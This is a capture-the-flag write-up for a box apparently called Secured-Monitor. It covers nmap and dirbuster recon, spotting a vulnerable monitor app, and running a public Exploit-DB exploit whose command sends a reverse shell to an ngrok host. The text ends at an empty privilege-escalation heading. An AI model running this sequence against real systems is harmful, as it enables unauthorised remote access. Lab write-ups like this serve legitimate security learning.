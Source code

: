 # Welcome to Secured-Monitor Solution

After pasting the 3 flags you had got the IP of the box i.e. `100.27.12.78`

# Recon

Lets get started with nmap as always and we get port 80 open thats great!

![Port Scan](https://i.ibb.co/6RvyYyD/portscan.jpg)

Now lets go to `http://100.27.12.78/` we see a default ubuntu page!

![Default Ubuntu Page](https://i.ibb.co/DLbXPPq/default-ubuntu.jpg)

We have a /robots.txt but thats useless.

Dirbuster it 

![Dirburst](https://i.ibb.co/5spR4MY/dirblast.jpg)

and we get a juicy file at `http://100.27.12.78/monitor/`

![Monitor Page](https://i.ibb.co/jMbv3JP/monitor1.jpg)

At the end we see there is a version `1.7.6m` and a login page!

The version that made me trigger that its not custom made lets google about it!

We find something interesting!

![ExploitDB](https://i.ibb.co/rb7HnWP/exploitdb.jpg)

lets run it :3 with netcat and ngrok (incase if you dont have)

# Exploitation

Run the python exploit which we have got from `https://www.exploit-db.com/exploits/48980`

##Command to run

`python expl.py http://100.27.12.78/monitor/ 2.tcp.ngrok.io 10090`

In the netcat we get a reverse shell :3

![Rev SHell](https://i.ibb.co/mzJVYnv/reverse-shell.jpg)

On crawling around the server we find that the `root.txt` but we cannot read it as we are `www-data`


# Privelege Escalation








